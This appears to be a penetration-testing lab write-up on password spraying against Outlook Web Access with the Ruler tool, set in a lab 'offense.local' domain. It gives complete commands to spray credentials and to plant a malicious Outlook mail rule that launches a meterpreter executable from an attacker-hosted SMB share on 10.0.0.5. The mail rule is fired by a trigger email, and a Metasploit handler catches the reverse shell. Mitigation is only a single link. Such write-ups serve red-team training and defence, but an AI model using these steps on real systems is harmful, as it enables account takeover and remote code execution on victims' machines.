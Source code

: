 # Password Spraying Outlook Web Access: Remote Shell

## Context

This lab looks at an attacking technique called password spraying as well as abusing Outlook Web Application by exploiting mail rules to get a remote shell using a tool called `Ruler`.

## Defininitions

**Password spraying** is a form of password brute-forcing attack. In password spraying, an attacker \(with the help of a tool\) cycles through a list of possible usernames \(found using OSINT techniques against a target company or other means\) with a couple of most commonly used weak passwords. 

In comparison, a traditional brute-force works by selecting a username from the list and trying all the passwords in the wordlist against that username. Once all passwords are exhausted for that user name, another username is chosen from the list and the process repeats.

Password spraying could be illustrated with the following table:

| User | Password |
| :--- | :--- |
| john | Winter2018 |
| ben | Winter2018 |
| ... | Winter2018 |
| john | December2018! |
| ben | December2018! |
| ... | December2018! |

Standard password brute-forcing could be illustrated with the following table:

| User | Password |
| :--- | :--- |
| john | Winter2018 |
| john | Winter2018! |
| john | Password1 |
| ben | Winter2018 |
| ben | Winter2018! |
| ben | Password1 |

## Password Spraying

Let's try doing a password spray against an Exchange 2016 server in a `offense.local` domain:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
ruler -k --domain offense.local brute --users users --passwords passwords --verbose
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2018-12-23-15-09-03.png)

![](../../.gitbook/assets/peek-2018-12-23-15-07.gif)

The above shows that password spray was successful against the user `spotless` who used a weak password `123456`.

Note, that if you are attempting to replicate this technique in your own labs, you may need to update your `/etc/hosts` to point to your Exchange server:

![](../../.gitbook/assets/screenshot-from-2018-12-23-15-08-18.png)

## Getting a Shell via Malicious Email Rule

### Process Overview

If the password spray against an Exchange server was successful and you have obtained valid credentials, you can now leverage `Ruler` to create a malicious email rule to that will gain you remote code execution on the host that checks that compromised mailbox.

A high level overwiew of how the spraying and remote code execution works:

* assume you have obtained working credentials during the spray for the user `spotless@offense.local`
* with the help of `Ruler`, a malicious mail rule is created for the compromised account which in our case is `spotless@offense.local`. The rule created will conform to the format along the lines of: `if emailSubject contains` **`someTriggerWord`**_`start`_**`pathToSomeProgram`**
* A new email with subject containing `someTriggerWord` is sent to the `spotless@offense.local`
* User `spotless` logs on to his/her workstation and launches Outlook client to check for new email
* Malicious email comes in and the malicious mail rule is triggered, which in turn starts the program specified in `pathToSomeProgram` which is pointing to a malicious payload giving a reverse shell to the attacker

### Execution

Let's validate the compromised credentials are working by checking if there are any email rules created already:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
ruler -k --verbose --email spotless@offense.local -u spotless -p 123456  display
```
{% endcode-tabs-item %}
{% endcode-tabs %}

The below suggests the credentials are working and that no mail rules are set for this account yet:

![](../../.gitbook/assets/screenshot-from-2018-12-23-17-15-36.png)

To carry out the attack further, I've generated a reverse meterpreter payload and saved it as a windows executable in `/root/tools/evilm64.exe` 

We now need to create an SMB share that is accessible to our victim host and point it to the location where our payload evilm64.exe is located:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
smbserver.py tools /root/tools/
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Next, we setup a metasploit listener to catch the incoming reverse shell:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
use exploit/multi/handler 
set lhost 10.0.0.5
set lport 443
exploit
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Finally, we fire up the ruler and create the malicious email rule:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456  add --location '\\10.0.0.5\tools\\evilm64.exe' --trigger "popashell" --name maliciousrule --send --subject popashell
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Below shows the entire attack and all of the steps mentioned above in action - note how the compromised mailbox does not even get to see the malicious email coming in:

![](../../.gitbook/assets/peek-2018-12-23-18-13.gif)

Below shows the actual malicious rule that got created as part of the attack - note the `subject` and the `start` properties - we specified them in the ruler command:

![](../../.gitbook/assets/screenshot-from-2018-12-23-18-17-10.png)

If you want to delete the malicious email rule, do this:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
ruler -k --verbose --email spotless@offense.local --username spotless -p 123456 delete --name maliciousrule
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Detection & Mitigation

{% embed url="https://www.microsoft.com/en-us/microsoft-365/blog/2018/03/05/azure-ad-and-adfs-best-practices-defending-against-password-spray-attacks/" %}

## References

{% embed url="https://github.com/sensepost/ruler/wiki" %}

{% embed url="https://silentbreaksecurity.com/malicious-outlook-rules/" %}

{% embed url="https://labs.mwrinfosecurity.com/blog/malicous-outlook-rules/" %}

{% embed url="https://www.blackhillsinfosec.com/introducing-mailsniper-a-tool-for-searching-every-users-email-for-sensitive-data/" %}



